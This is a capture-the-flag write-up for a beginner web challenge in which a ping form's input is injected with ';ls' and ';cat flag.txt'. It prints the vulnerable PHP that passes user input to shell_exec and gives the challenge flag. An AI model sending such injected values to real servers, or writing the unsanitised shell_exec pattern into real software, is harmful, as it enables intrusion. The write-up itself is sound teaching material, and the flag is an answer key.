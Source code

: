# 1 - Easy As Pie

Once in a remote Norwegian town, a group of skilled security professionals had convened in a fancy cabin to collaborate and achieve their objectives. On their network, they found a number of challenges that required their collective expertise. Do you have what it takes to tackle these challenges too?

http://rsxc.no:9005

# Note

Due to my findings in no 3-6 of this challenge the challenge has been updated. So flag is no longer in webroot but in system root. But all writeups still works but the flag seems to be moved to `/flag.txt`

# Writeup

After a lot of input, any type of injections I could find I suddenly got output with the `;ls`. There I found out that this was a bash script injection.

```
flag.txt
index.php
style.css
```

Flag was quickly captured by `;cat flag.txt` then I analyzed the `index.php` file:

```php
<?php
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $ip = $_POST['ip'];
    $output = shell_exec("ping -c 1 $ip");
    echo "<pre class='output'>$output</pre>";
}
?>
```

This seems to be the format for most of the challenges in "The Hacker House". The weird thing is that entering a valid IP outputs nothing. I expected this output atleast.

```console
toffe@kali:~$ ping -c 1 localhost                                           
PING localhost(localhost (::1)) 56 data bytes
64 bytes from localhost (::1): icmp_seq=1 ttl=64 time=0.036 ms

--- localhost ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms
```

Which would have made the task a whole lot simpler. But it seems like they are using a docker enviroment without the `ping` command as I could not find it in `/usr/bin` when looking there.

# Flag

```
RSXC{THE_FIRST_ONE_IS_SIMPLE_BUT_THEY_WILL_BECOME_HARDER}
```
